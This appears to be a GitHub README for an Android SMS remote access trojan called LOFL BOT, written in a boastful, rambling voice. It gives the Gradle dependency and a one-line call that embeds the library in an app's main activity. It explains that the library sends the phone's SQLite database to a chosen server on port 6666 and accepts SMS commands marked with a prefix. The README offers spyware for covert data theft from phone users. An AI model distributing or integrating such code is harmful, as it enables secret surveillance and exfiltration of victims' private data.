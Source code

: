 # LOFL BOT
### A 3-year-old injectable SMS RAT. No backend. Therefore, the spyware remote commands won't work. I learned Android pentesting with library. I'm really embarrassed of the code. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT. Iwanteed to leave it to my child but it's for my father.

### Guess what all you social elitists, hackers, developers, engineers, crackers, terrorists, CandroidOgNinja fans, Candroid fans, Chris Basinger's fans, Evil Threads fans, family members, and federal agents. I've managed to hack the Android SMS module! By doing so, I've extended it's functionality to allow for SMS messages to only travel through the notification drawer without persistence. I was planning on adding media functionality as well. However , my life had to go on.

There is a self-destructible SMS based notification messenger app. Like snapchat in your drawer. It's hidden in a git branch.
```gradle
implementation 'com.github.evilthreads669966:lofl:1.0'
```


 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
